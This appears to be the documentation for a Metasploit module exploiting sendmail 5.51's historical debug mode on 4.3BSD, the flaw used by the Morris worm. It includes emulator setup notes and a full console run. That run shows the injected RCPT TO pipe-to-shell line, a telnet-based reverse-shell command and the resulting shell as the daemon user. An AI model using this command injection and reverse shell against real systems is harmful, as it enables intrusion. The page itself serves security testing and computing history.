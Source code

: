 ## Vulnerable Application

### Description

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

### Targets

```
Id  Name
--  ----
0   @(#)version.c       5.51 (Berkeley) 5/2/86
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RPORT**

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a Unix command payload. Currently, only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Scenarios

### `sendmail` 5.51 on 4.3BSD

```
msf5 > use exploit/unix/smtp/morris_sendmail_debug
msf5 exploit(unix/smtp/morris_sendmail_debug) > show missing

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/morris_sendmail_debug) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Expecting: /220.*Sendmail/
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Expecting: /200 Debug set/
[*] 127.0.0.1:25 - Sending: MAIL FROM:<3V900gQTSR70m6QPRYJnf3eoUIe6>
[*] 127.0.0.1:25 - Expecting: /250.*Sender ok/
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Expecting: /250.*Recipient ok/
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Expecting: /354 Enter mail.*itself/
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 3935|telnet 192.168.56.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.56.1 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Expecting: /250 Ok/
[*] 127.0.0.1:25 - Sending: QUIT
[*] 127.0.0.1:25 - Expecting: /221.*closing connection/
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ISj759F8jEik4HAW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58037) at 2020-02-06 15:51:28 -0600
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
